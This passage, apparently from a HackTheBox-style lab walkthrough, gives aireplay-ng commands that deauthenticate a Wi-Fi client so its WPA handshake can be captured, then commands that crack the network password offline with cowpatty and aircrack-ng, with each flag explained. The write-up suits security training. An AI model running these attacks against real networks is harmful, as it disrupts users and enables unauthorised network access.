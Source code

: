 **Deauthenticate a client:**

```bash
sudo aireplay-ng -0 5 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon
```

- `aireplay-ng`: Tool for packet injection attacks.
    
- `-0`: Deauthentication attack type.
    
- `5`: Number of deauth bursts to send (0 = infinite).
    
- `-a <AP_BSSID>`: Target AP MAC address.
    
- `-c <CLIENT_MAC>`: Target client MAC.
    
- `wlan0mon`: Monitor mode interface.
    

Effect: Client disconnects, then reconnects → handshake packets captured.

**Confirm in airodump‑ng window:**

```
[ WPA handshake: <AP_BSSID> ]
```

**Optional: Validate capture with Cowpatty:**

```bash
cowpatty -c -r WPA-01.cap
```

- `-c`: Check mode (only verifies handshake validity).
    
- `-r WPA-01.cap`: Reads the capture file.
    
- Output: “Collected all necessary data …” if handshake is good.
    

---

## Step 3 — Password Cracking

Use the capture to attempt dictionary cracking with multiple tools.

### 3.A — Cowpatty

```bash
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s "HackTheBox"
```

- `-r WPA-01.cap`: Capture file containing handshake.
    
- `-f /opt/wordlist.txt`: Wordlist path.
    
- `-s "HackTheBox"`: Target SSID (needed for key derivation).
    

### 3.B — Aircrack‑ng

```bash
aircrack-ng WPA-01.cap -w /opt/wordlist.txt
```
